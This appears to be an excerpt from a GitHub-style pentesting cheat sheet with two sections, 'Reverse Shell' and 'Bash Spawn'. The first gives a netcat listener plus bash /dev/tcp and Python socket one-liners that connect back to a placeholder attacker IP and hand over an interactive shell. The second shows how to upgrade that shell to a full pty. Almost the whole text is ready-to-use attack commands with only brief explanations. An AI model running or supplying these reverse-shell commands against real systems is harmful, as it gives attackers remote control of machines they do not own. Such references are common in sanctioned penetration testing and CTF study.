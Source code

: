 - ### Reverse Shell
  A Reverse Shell is a type of connection where a target machine initiates a remote shell back to an attacker's system, allowing the attacker to execute
  commands on the target as if they were locally present. It can be easily achieved using [Netcat](https://nmap.org/ncat/).

  #### Local Machine
  ```bash
  nc -lvnp ${PORT}
  ```
  
  #### Remote Machine
  ```bash
  bash -i >& /dev/tcp/${LOCAL_MACHINE_IP}/${PORT} 0>&1
  ```
  or

  ```bash
  python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("YOUR.IP.ADDR.HERE",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
  ```
  
  
<br/>

- ### Bash Spawn <br/>
  Spawns an interactive pseudo-terminal **(pty)** running **/bin/bash**, which upgrades a basic shell to behave more like a fully interactive terminal.
  Useful when doing a Reverse Shell.

  ```bash
  script /dev/null -c bash
  ```
  or
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  <CTRL+Z>
  stty raw -echo
  fg
  export TERM=xterm
  ```  
